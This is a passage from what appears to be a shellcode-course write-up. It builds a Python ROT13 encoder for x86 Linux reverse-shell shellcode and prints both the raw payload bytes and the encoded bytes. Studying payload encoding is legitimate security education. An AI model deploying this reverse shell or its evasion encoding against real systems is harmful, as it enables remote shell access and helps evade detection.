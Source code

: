 This is exactly what we would like to apply in our custom encoder.

## Encoder

We'll start by creating our encoder, we'll be using python for this as it's a user friendly language and easy to create quick code in.

Our shellcode will be the reverse shell we created in Assignment 2. Don't worry though, this writeup is only about our custom encoder so you don't have to worry about creating the reverse shell. Just use my example here:

```
#!/usr/env/python
shellcode = ("\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x01\x01\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80")

rot13 = 13
maxHexSize = 256 - rot13

encoded = ""
encodedASM = ""

for hexbyte in bytearray(shellcode):
	if hexbyte < maxHexSize:
		encoded += "\\x%02x" % (hexbyte + rot13)
		encodedASM += "0x%02x," % (hexbyte + rot13)
	else:
		encoded += "\\x%02x" % (rot13 - 256 + hexbyte)
		encodedASM += "0x%02x," % (rot13 - 256 + hexbyte)


print "\n[+] Rot13 encoded shellcode is: " + encoded
print "[+] Len: " + str(len(bytearray(shellcode)))
print "\n[+] Assembly format is: " + encodedASM
print "[+] Len: " + str(len(bytearray(shellcode)))
```

If we execute the encoder script we receive our well formatted shellcode:

```
root@ubuntu:/mnt/hgfs/assembly/exam/4-Assignment# python encoder-rot13.py 

[+] Rot13 encoded shellcode is: \x3e\xcd\xbd\x73\x3e\xe8\xc0\x0e\x3e\xd6\x5e\x60\x77\x0f\x96\xee\xda\x8d\x3e\x0c\x96\xd4\x3e\xcd\xbd\x73\x3e\xd6\xc6\x8d\x0e\x0e\x0f\x8e\xf6\x0e\x0e\x0e\x0e\x5e\x73\x75\x1e\x69\x50\x73\x60\x96\xee\x77\x1d\x5e\x64\x96\xee\x50\xda\x8d\x3e\xd6\xbe\x0f\x3e\xcd\xbd\x4c\xda\x8d\x56\x86\x06\x3e\xcd\xbd\x18\x3e\xe8\x60\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x3e\xd6\x3e\xdf\xda\x8d
[+] Len: 96

[+] Assembly format is: 0x3e,0xcd,0xbd,0x73,0x3e,0xe8,0xc0,0x0e,0x3e,0xd6,0x5e,0x60,0x77,0x0f,0x96,0xee,0xda,0x8d,0x3e,0x0c,0x96,0xd4,0x3e,0xcd,0xbd,0x73,0x3e,0xd6,0xc6,0x8d,0x0e,0x0e,0x0f,0x8e,0xf6,0x0e,0x0e,0x0e,0x0e,0x5e,0x73,0x75,0x1e,0x69,0x50,0x73,0x60,0x96,0xee,0x77,0x1d,0x5e,0x64,0x96,0xee,0x50,0xda,0x8d,0x3e,0xd6,0xbe,0x0f,0x3e,0xcd,0xbd,0x4c,0xda,0x8d,0x56,0x86,0x06,0x3e,0xcd,0xbd,0x18,0x3e,0xe8,0x60,0x75,0x3c,0x3c,0x80,0x75,0x75,0x3c,0x6f,0x76,0x7b,0x96,0xf0,0x3e,0xd6,0x3e,0xdf,0xda,0x8d,
[+] Len: 96
```

